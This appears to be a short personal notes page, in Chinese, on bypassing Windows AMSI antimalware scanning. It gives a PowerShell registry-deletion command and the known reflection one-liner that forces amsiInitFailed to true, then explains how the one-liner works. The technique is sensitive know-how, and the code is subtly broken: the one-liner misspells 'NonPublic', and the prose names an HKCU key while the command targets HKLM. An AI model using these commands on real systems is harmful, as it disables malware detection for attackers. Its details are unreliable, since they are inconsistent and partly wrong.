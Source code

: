 ```yaml
---
date: 2024-01-15
---
```


# AMSI


> [amsi绕过总结 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/11097)

AMSI(Antimalware Scan Interface) 是微软提供的一个标准化接口，旨在增强恶意软件和其他威胁的检测能力，特别是对于那些运行在Windows操作系统上的脚本和解释型代码

> Win10 以及 WindowsSever2016 及之后的版本支持 AMSI 
>
> 低版本(2.0)的powershell是没有amsi的，所以在powershell2.0上执行恶意脚本就不会被检测到
>
> ![image-20240102052708985](http://cdn.ayusummer233.top/DailyNotes/202401020527019.png)

AMSI使得应用程序(如PowerShell、VBScript、JavaScript等) 可以将执行前的代码发送到安装的防病毒软件进行扫描

----

## AMSI Bypass

通过修改内存中的AMSI相关数据，或者利用AMSI实现中的漏洞可以实现 bypass AMSI 从而缓解检测

---

## 禁用或关闭 AMSI

### 改注册表禁用 AMSI

设置注册表`HKCU\Software\Microsoft\Windows Script\Settings\AmsiEnable`设置为 0，以禁用
AMSI。

```powershell
Remove-Item -Path "HKLM:\Software\Microsoft\Windows Script\Settings\AmsiEnable" -Recurse
```



---

### 通过命名空间接口关闭AMSI

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPubilc,Static').SetValue($null,$true)
```

1. `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')`

   - 获取`System.Management.Automation`命名空间下的`AmsiUtils`类的类型信息。

     `AmsiUtils`是处理AMSI相关操作的内部类。

2. `GetField('amsiInitFailed','NonPublic,Static')`

   - 获取`AmsiUtils`类中名为`amsiInitFailed`的字段。

     这个字段是一个私有(NonPublic) 静态(Static) 字段，用于指示AMSI是否初始化失败。

3. `SetValue($null,$true)`

   - 将`amsiInitFailed`字段的值设置为`$true`，意味着伪造AMSI初始化失败的状态。

     这样做的效果是使AMSI停止工作，因为系统认为AMSI无法正确初始化。
